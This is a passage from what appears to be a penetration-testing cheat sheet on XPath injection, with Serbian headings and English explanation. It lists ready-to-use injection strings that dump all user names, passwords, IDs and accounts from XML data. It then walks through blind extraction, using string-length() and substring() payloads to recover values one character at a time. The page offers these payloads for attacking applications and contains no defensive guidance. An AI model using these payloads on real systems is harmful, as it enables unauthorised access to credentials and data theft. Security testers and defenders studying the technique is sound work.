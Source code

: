 ```
') or 1=1 or (' #Get all names
') or 1=1] | //user/password[('')=(' #Get all names and passwords
') or 2=1] | //user/node()[('')=(' #Get all values
')] | //./node()[('')=(' #Get all values
')] | //node()[('')=(' #Get all values
') or 1=1] | //user/password[('')=(' #Get all names and passwords
')] | //password%00 #All names and passwords (abusing null injection)
')]/../*[3][text()!=(' #All the passwords
')] | //user/*[1] | a[(' #The ID of all users
')] | //user/*[2] | a[(' #The name of all users
')] | //user/*[3] | a[(' #The password of all users
')] | //user/*[4] | a[(' #The account of all users
```

### **Izvlačenje podataka putem slepe eksploatacije**

### **Dobijanje dužine vrednosti i izvlačenje putem poređenja:**

XPath injection vulnerabilities can be exploited to extract sensitive information from a web application. One common technique is to use blind exploitation, where the attacker can infer information by making logical comparisons.

To determine the length of a specific value, the attacker can use the `string-length()` function in XPath. By injecting a payload that includes this function, the attacker can retrieve the length of the desired value.

For example, to extract the length of the username, the attacker can inject the following payload:

```plaintext
' or string-length(//user/username/text())=X or '
```

The `X` in the payload should be replaced with a number to perform the comparison. If the length of the username is equal to the specified number, the application will return a valid response. Otherwise, it will return an error or no response at all.

To extract the value itself, the attacker can use a similar technique. By injecting a payload that includes a substring comparison, the attacker can retrieve the characters of the desired value one by one.

For example, to extract the username character by character, the attacker can inject the following payload:

```plaintext
' or substring(//user/username/text(),X,1)='Y' or '
```

The `X` in the payload should be replaced with the position of the character, starting from 1. The `Y` should be replaced with the desired character to compare.

By repeating this process for each character, the attacker can gradually extract the entire value.

It is important to note that blind exploitation can be a time-consuming process, as it requires making multiple requests and performing comparisons. However, it can be an effective technique for extracting sensitive information when other methods are not available.
